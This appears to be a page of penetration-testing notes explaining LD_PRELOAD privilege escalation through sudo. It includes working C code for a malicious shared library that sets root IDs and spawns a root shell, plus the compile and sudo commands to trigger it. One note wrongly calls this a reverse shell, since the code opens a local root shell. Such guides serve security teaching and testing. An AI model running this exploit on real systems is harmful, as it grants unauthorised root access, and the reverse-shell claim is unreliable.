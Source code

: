 ### **Steps to Identify and Exploit LD_PRELOAD**

1.  To check if LD_PRELOAD is enabled, run sudo -l and look for env_keep+=LD_PRELOAD in the output.  
    `sudo -l`  

    ![](../../../img/Linux-Environment/47.png)
    
    ??? info "NOTE:"

        When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will  execute code as soon as the object is loaded.
    
2.  Craft a C file that will act as the malicious shared library. This library should include an initialization function (`_init`) to perform desired actions (e.g., opening a reverse shell, elevating privileges).
    
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
    ![](../../../img/Linux-Environment/48.png)

    ??? info "NOTE:"

        This example provides a reverse shell to the attacker's machine.

3.  Compile the Malicious Code  
    `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`  
    
    ![](../../../img/Linux-Environment/49.png)
    
4.  Execute any binary you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object.  
    `sudo LD_PRELOAD=/tmp/preload.so /usr/bin/man`  
    
    ![](../../../img/Linux-Environment/50.png)
